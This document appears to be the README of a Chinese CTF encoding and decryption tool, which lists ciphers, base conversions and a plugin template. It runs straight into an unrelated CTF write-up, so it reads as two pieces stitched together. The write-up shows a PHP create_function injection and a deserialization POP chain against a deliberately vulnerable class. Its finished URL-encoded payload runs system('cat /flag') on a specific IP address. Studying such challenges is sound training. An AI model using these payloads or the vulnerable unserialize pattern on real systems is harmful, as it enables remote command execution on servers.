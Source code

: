 # CTF-Tools

![1](https://github.com/qianxiao996/CTF-Tools/blob/master/1.jpg)

一款CTF编码、解码、加密、解密工具。

##### 安装依赖：

- pip install base36
- pip install base58
- pip install base91
- py3base92-master\py3base92_setup>install.bat 到github上找到py3base92下载，执行install.bat
- pip install pybase62
- pip install PyQt5
- pip install pyperclip
- pip install wheel
- pip install F:\download\gmpy2-2.0.8-cp39-cp39-win_amd64.whl(我的python是3.9版本，所以下载的是cp39,https://www.lfd.uci.edu/~gohlke/pythonlibs/ 到这里搜索下载)


##### 支持的编码解码:

- [x] URL-UTF-8            
- [x] URL-GB2312
- [x] Unicode
- [x] Escape(%U)
- [x] HtmlEncode
- [x] ACSII
- [x] Base16
- [x] Base32
- [x] Base64
- [x] Str->Hex
- [x] Shellcode
- [x] qwerty(键盘密码)
- [x] 图片转base64
- [x] 图片转hex

##### 支持的加密解密:

- [x] Rot13
- [x] 凯撒密码
- [x] 栅栏密码
- [x] 栅栏密码(W型)
- [x] 培根密码
- [x] 摩斯密码
- [x] 移位密码
- [x] 云影密码
- [x] 当铺密码
- [x] 维尼吉亚密码
- [x] 埃特巴什码
- [x] base64转图片

##### 进制转换:

- [x] 2->8
- [x] 2->10
- [x] 2->16
- [x] 8->2
- [x] 8->10
- [x] 8->16
- [x] 10->2
- [x] 10->8
- [x] 10->16
- [x] 16->2
- [x] 16->8
- [x] 16->10
- [x] 任意进制转换

##### 在线编码网站:

- [x] Jsfuck
- [x] AAencode
- [x] XXencode
- [x] JJencode
- [x] UUencode
- [x] Brainfuck/Ook!
- [x] 敲击码
- [x] 猪圈密码
- [x] 综合网站
- [x] Rabbit

......

##### 插件功能:

须在Plugins目录下的Plugins.json写入插件名称和文件名。

插件模板

```
def run(source_text):
    #source_text 为前端输入的源文本字符串
    #插件测试模板，返回一个加密解密结果即可
    result='插件测试'
    return result
```



php的神奇函数
create_function；如下代码就能调用系统命令ls /

<?php
echo 'Hello World!';
create_function('',";}system('ls /');//")
?>




<?php
error_reporting(0);
highlight_file(__FILE__);
class func
{
        public $mod1="1";
        public $mod2="2";
         public $key="3";
        public function __destruct()
        {        
                unserialize($this->key)();
                $this->mod2 = "welcome ".$this->mod1;
                  
        } 
}

class GetFlag
{        public $code;
         public $action;
        public function get_flag(){
            $a=$this->action;
            $a('', $this->code);
        }
}


$str = 'O%3A4%3A%22func%22%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A121%3A%22a%3A2%3A%7Bi%3A0%3BO%3A7%3A%22GetFlag%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A19%3A%22%3B%7Dsystem%28%27ls+%2F%27%29%3B%2F%2F%22%3Bs%3A6%3A%22action%22%3Bs%3A15%3A%22create_function%22%3B%7Di%3A1%3Bs%3A8%3A%22get_flag%22%3B%7D%22%3B%7D';
echo urldecode($str);
unserialize(urldecode($str));

?> 







首先利用一个creat_function()函数去做这里，`$a('', $this->code);`

要执行到getflag的get_flag方法，就可以这样打pop链：

php
<?php
class func
{
    public $key;
    public function __construct()
{
        $this->key = serialize([new GetFlag(), "get_flag"]);
    }
}


class GetFlag
{
    public $code;
    public $action;
    public function __construct()
{
        $this->code = ";}system('ls /');//";
        $this->action = "create_function";
    }
}
echo urlencode(serialize(new func()));  
O%3A4%3A%22func%22%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A121%3A%22a%3A2%3A%7Bi%3A0%3BO%3A7%3A%22GetFlag%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A19%3A%22%3B%7Dsystem%28%27ls+%2F%27%29%3B%2F%2F%22%3Bs%3A6%3A%22action%22%3Bs%3A15%3A%22create_function%22%3B%7Di%3A1%3Bs%3A8%3A%22get_flag%22%3B%7D%22%3B%7D
成功执行了命令，flag在根目录，cat /flag 就OK了：

最终payload：

http://111.74.9.109:10069/?0=O%3A4%3A%22func%22%3A3%3A%7Bs%3A4%3A%22mod1%22%3BN%3Bs%3A4%3A%22mod2%22%3BN%3Bs%3A3%3A%22key%22%3Bs%3A126%3A%22a%3A2%3A%7Bi%3A0%3BO%3A7%3A%22GetFlag%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A24%3A%22%3B%7Dsystem%28%27cat+%2Fflag%27%29%3B%2F%2F%22%3Bs%3A6%3A%22action%22%3Bs%3A15%3A%22create_function%22%3B%7Di%3A1%3Bs%3A8%3A%22get_flag%22%3B%7D%22%3B%7D

图片
